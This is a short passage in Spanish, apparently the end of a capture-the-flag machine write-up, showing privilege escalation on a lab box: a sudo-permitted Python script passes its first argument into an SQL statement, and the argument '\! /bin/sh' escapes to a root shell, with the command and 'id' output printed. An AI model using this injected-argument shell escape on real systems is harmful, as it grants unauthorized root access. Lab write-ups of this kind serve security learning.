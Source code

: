 El script toma dos argumentos, el segundo es necesario que sea o "Done" o "Doing" o "To do". El primer argumento del script formará parte de la sentencia sql a ejecutar.

Por lo que se puede conseguir una shell de la siguiente manera.

```
carlos@literal:~$ sudo /opt/my_things/blog/update_project_status.py '\! /bin/sh' Done
[+] Before update project (\! /bin/sh)

# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
literal
# :)
```

Root conseguido!!

Muchas gracias a **Lanz** por esta máquina.
